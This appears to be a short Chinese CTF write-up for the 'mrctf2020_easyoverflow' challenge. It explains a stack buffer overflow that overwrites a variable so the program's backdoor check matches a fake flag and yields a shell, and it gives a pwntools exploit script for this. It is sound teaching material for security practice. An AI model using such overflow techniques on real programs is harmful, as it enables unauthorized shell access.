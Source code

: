 1. 保护全开,考虑利用程序自身的代码

2. 程序中存在后门,理解程序流

   关键在于`check`函数中,只要`a1(v5) == fake_flag`就可以得到`shell`

3. 通过ida可知`v5`在栈上的位置和`fake_flag`的内容

   ![image-20240113122354712](../assets/img/old_imgs/image-20240113122354712.png)

   ![image-20240113122428149](../assets/img/old_imgs/image-20240113122428149.png)

4. 构造`payload`通过填充`v4`的空间溢出到`v5`进而控制`v5`变量的内容

```python
from pwn import *
io = process('./mrctf2020_easyoverflow')
#io = gdb.debug('./mrctf2020_easyoverflow')
payload = b'A'*48+b'n0t_r3@11y_f1@g\x00'
io.sendline(payload)
io.interactive()
```
